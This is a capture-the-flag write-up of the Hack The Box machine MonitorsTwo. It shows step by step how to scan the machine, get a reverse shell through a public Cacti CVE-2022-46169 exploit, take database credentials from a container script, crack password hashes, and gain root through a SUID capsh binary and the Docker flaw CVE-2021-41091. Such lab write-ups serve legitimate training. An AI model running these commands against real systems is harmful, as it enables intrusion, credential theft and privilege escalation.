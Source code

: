 ```yaml
---
title: "HTB: MonitorsTwo"
date: 2024-06-24
image: 
  path: /assets/img/HTB/MonitorsTwo/MonitorsTwo.png
categories: [Hack The Box, Machines]
---
```


## Information

- OS: Linux
- Difficult: Easy
- IP address: 10.10.11.211

## Enumeration

### Ports and services

Firstly, we enumerate open ports on the machine 

`sudo nmap -sS -p- --open --min-rate=5000 -v -n -Pn 10.10.11.211 -oG allPorts`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622195247.png)

We only have the ports 22 and 80, which run ssh and http, lets see what services version they run

`sudo nmap -sCV -p22,80 -v -n -Pn 10.10.11.211 -oN services`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622195517.png)

So, target machine's running OpenSSH 8.2p1 and a nginx 1.18.0

### HTTP server

Going into http://10.10.11.211 and just show us a user login page:

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622195745.png)

The login page belongs to Cacti, which is a monitoring software that we can consult in their [official website](https://www.cacti.net/)

Fuzzing the webpage with ffuf will show us

`ffuf -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -c -u http://10.10.11.211/FUZZ -e .php,.html,.txt -fs 13844`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622200020.png)

Navigating to any resource of this site only shows us the login page, so we  can assume that we need to be authenticated to access it

*utilities.php*
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622200427.png)

## Shell as www-data 

The Cacti's version is 1.2.22. If we make a search we can found [CVE-2022-46169](https://www.cvedetails.com/cve/CVE-2022-46169/) which allows a RCE, and a [exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) associate

Before use it we will open a listener on our machine on port 4242 `nc -nvlp 4242`
and then use the exploit, indicating the web's url, our ip and our listener's port

`python3 rceExploit.py  -u http://10.10.11.211 --LHOST=10.10.14.61 --LPORT=4242`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622204450.png)

And on our nc listener we received a shell

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622204517.png)

To stabilize a shell use on the target machine `script /dev/null -qc /bin/bash`, then use CTRL + Z to suspend the reverse shell and use `stty raw -echo; fg`

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622205817.png)

Now we can use CTRL + C to clean the shell without kill it, but we cannot use CTROL + l to clean the shell yet, for it we'll use `export TERM=xterm`

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622210018.png)

And we got a full interactive shell

## Shell as marcus

### Enumerating Docker container

On target system we can see we are www-datals, the kernel version is 5.4.0-147-generid and the groups we belongs to 

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622210307.png)

In the root directory we have a *.dockerenv* file, so we are in a docker container. Also we have a script called *entrypoint.sh*

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211014.png)

*entrypoint.sh*
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211042.png)

This script leak credentials for a mysql database. Lets connect to this DB

`mysql -h db --user=root -proot`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211424.png)

Existent databases:

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211512.png){: left }

Enumerating the cacti's database tables
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211632.png)
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211645.png)

The user_auth table saves authentication info

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622212017.png)

Lets show the users, passwords and emails

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622212102.png)

user_auth shows 3 users, where 2 of them have hashes. We will add them to *hashes.txt* on our attacking machine and try to crack them with the *rockyou* wordlist

`nano hashes.txt`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622220337.png)

`john --wordlist=/usr/share/wordlist/rockyou.txt hashes.txt`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622221016.png)

Lets try to connect via SSH with these credentials

`ssh marcus@10.10.11.211`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622221248.png)

Now we are in the docker's host machine, and we have a message saying we have a mail

## Shell as root

In this machine we are marcus user, we don't belong to any special group and the kernel version is 5.4.0-147-generic

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622223339.png)

The email is from the security team advising us that there are some vulnerabilities to fix: CVE-2021-33033 on linux kernels before 5.11.14, CVE-2020-25706 on Cacti 1.2.13 and CVE-2021-41091 on Docker versions before 20.10.9

`cat /var/mail/marcus`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622230128.png)

For the first CVE, machine's kernel is based in 5.4 series while the vulnerability is for 5.11 one.

The second vulnerability, CVE-2020-25706 is a XSS so it doesn't help us to escalate privileges. 

So lets check the third one, CVE-2021-41091 cause our docker is running version 20.10.5, older than 20.10.9

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622232349.png)

### Privileges escalation in Docker container

In order to exploit this vulnerability we need to be root on the docker container

Listing the SUID permissions we found that *capsh* has it. Searching in [GTFOBins](https://gtfobins.github.io/) we'll know how to abuse this to escalate privileges

`find / -perm -4000 2>/dev/null`
`/sbin/capsh --gid=0 --uid=0 --`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622233552.png)

### Exploiting CVE-2021-41091

In this [GitHub repository](https://github.com/UncleJ4ck/CVE-2021-41091) there are a exploit and the instructions to use it:

- To assign SUID permission on /bin/bash in the container
	`chmod u+s /bin/bash`
	![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622234030.png)
- Then we already can execute the exploit on the host machine
	`./exp.sh`
	![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622235057.png)
- The exploit says us that in case we weren't root, go to a provided path and execute `./bin/bash p`
	![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622235219.png)

And finally we have pwned the machine